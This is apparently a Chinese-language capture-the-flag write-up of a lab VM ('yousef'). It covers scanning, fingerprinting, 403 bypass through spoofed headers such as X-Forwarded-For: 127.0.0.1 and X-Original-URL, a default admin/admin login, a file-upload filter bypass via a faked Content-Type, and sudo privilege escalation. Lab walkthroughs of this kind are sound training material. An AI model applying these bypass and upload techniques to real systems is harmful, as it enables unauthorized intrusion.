



wahtweb指纹识别 | 403bypass | 文件上传绕过 | sudo提权


<!-- more -->


## 主机发现

### arp-scan

```
[root@kali ~]# sudo arp-scan -l

Interface: eth0, type: EN10MB, MAC: 00:0c:29:03:ac:71, IPv4: 172.16.42.147
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.42.1	00:50:56:c0:00:08	VMware, Inc.
172.16.42.2	00:50:56:fd:8b:c9	VMware, Inc.
172.16.42.208	08:00:27:ff:4d:67	PCS Systemtechnik GmbH
172.16.42.254	00:50:56:e2:0c:93	VMware, Inc.
```


### nmap 版本及脚本扫描

```
[root@kali ~]# nmap -p22,80 -sV -sC 172.16.42.208
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-20 20:37 EST
Nmap scan report for 172.16.42.208
Host is up (0.00060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d8:e0:99:8c:76:f1:86:a3:ce:09:c8:19:a4:1d:c7:e1 (DSA)
|   2048 82:b0:20:bc:04:ea:3f:c2:cf:73:c3:d4:fa:b5:4b:47 (RSA)
|   256 03:4d:b0:70:4d:cf:5a:4a:87:c3:a5:ee:84:cc:aa:cc (ECDSA)
|_  256 64:cd:d0:af:6e:0d:20:13:01:96:3b:8d:16:3a:d6:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-server-header: Apache/2.4.10 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:FF:4D:67 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.92 seconds
```


## 边界突破

### whatweb指纹识别

```
[root@kali ~]# whatweb http://172.16.42.208/
http://172.16.42.208/ [200 OK] Apache[2.4.10], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.10 (Ubuntu)], IP[172.16.42.208], JQuery, PHP[5.5.9-1ubuntu4.29], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.29]
```


### dirsearch目录扫描

```
apt install dirsearch
dirsearch -u http://172.16.42.208/
```

发现

```
[21:01:06] 301 -  322B  - /adminstration  ->  http://172.16.42.208/adminstration/
```

访问http://172.16.42.208/adminstration/ 




### 403 bypass

常规三种403bypass方式：

- **主机名替换（旁站）**

  搜集abc.com域下其他主机名 `$xxx$.abc.com`

- **url覆盖**

  ```
  #Request
  GET /auth/login HTTP/1.1
  
  #Response
  HTTP/1.1 403 Forbidden
  ```

  替换

  ```
  #Request
  GET / HTTP/1.1
  X-Original-URL: /auth/login
  
  #Response
  HTTP/1.1 200 OK
  ```

  一些可用的

  ```
  X-Original-URL
  X-Rewrite-URL
  ```

- **ReFerer**

  ```
  #Request
  GET / HTTP/1.1
  ReFerer: https://xxx/auth/login
  ```

- **多层网络架构**

  ```
  GET / HTTP/1.1
  Host: 172.16.42.210
  X-Originating-IP: 127.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  ```

  


本次通过`X-Forwarded-For`绕过




返回来一个登录页面用admin/admin进行登录。


### 文件上传绕过

通过修改content-type为图片绕过：`Content-Type: image/png`




通过反弹的shell读取到

```
(www-data:/home) $ cat /home/user.txt
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
```


base64解码
```
ssh : 
user : yousef 
pass : yousef123
```


## sudo 提权

使用上述账号密码登录

```
yousef@yousef-VirtualBox:~$ sudo -l
[sudo] password for yousef:
Matching Defaults entries for yousef on yousef-VirtualBox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User yousef may run the following commands on yousef-VirtualBox:
    (ALL : ALL) ALL
yousef@yousef-VirtualBox:~$ sudo su
root@yousef-VirtualBox:/home/yousef#
```


查看flag

```
root@yousef-VirtualBox:/home/yousef# cd /root
root@yousef-VirtualBox:~# ls
root.txt
root@yousef-VirtualBox:~# cat root.txt
WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx
```


解码

```
You've got the root Congratulations any feedback content me twitter @y0usef_11
```


